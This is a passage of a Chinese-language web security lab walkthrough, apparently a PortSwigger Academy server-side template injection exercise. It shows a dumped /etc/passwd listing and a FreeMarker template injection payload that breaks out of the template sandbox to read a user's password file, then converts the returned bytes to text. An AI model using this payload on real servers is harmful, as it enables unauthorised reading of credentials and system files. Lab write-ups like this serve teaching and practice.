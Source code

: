 ```
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

让我们读一下`my_password.txt`

有效载荷

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

![](img/dfb83592c75342c90df1421da1a19648.png)

我们来换算一下。

[](https://onlineasciitools.com/convert-bytes-to-ascii) [## 将字节转换为 ASCII -在线 ASCII 工具

### 字节到 ascii 转换工具什么是字节到 ascii 转换器？这个工具将字节作为输入，并将它们转换成…
